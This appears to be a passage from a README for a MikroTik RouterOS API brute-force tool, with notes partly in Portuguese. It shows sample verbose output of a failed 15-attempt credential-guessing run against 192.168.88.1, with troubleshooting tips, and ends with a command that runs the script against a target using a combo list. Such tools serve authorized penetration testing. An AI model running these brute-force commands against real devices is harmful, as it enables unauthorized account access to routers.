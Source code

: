 ```
Export         : JSON, CSV, XML, TXT
============================================================

[INFO] [10:30:15] [*] Starting brute force attack...
[INFO] [10:30:15] [*] Testing 15 credential combinations...

[TEST] [10:30:15] admin:****** ← Mostra o que está testando!
[FAIL] [10:30:15] [API] admin:admin
[TEST] [10:30:16] admin:********
[FAIL] [10:30:16] [API] admin:password

============================================================
ATTACK STATISTICS
============================================================
Total Tested    : 15
Successful      : 0
Failed          : 15
Success Rate    : 0.0%
============================================================

## NO CREDENTIALS FOUND ##
============================================================
No valid credentials were discovered.
Total attempts: 15

⚠ Warning: 15 connection errors occurred ← Diagnóstico!
Possible causes:
  - Target is unreachable or offline
  - Firewall blocking connections
  - Wrong port number
  - Target is not a Mikrotik device

Troubleshooting:
  1. Verify target is reachable: ping 192.168.88.1
  2. Check if API port is open: telnet 192.168.88.1 8728
  3. Try with verbose mode: -vv
============================================================
```

---

## 🚀 Teste Agora com o Novo Verbose

```powershell
# Demo visual
.\demo_test.ps1

# Ou execute direto
python mikrotikapi-bf.py -t 192.168.88.1 -d examples\combos.txt --export-all -v
```
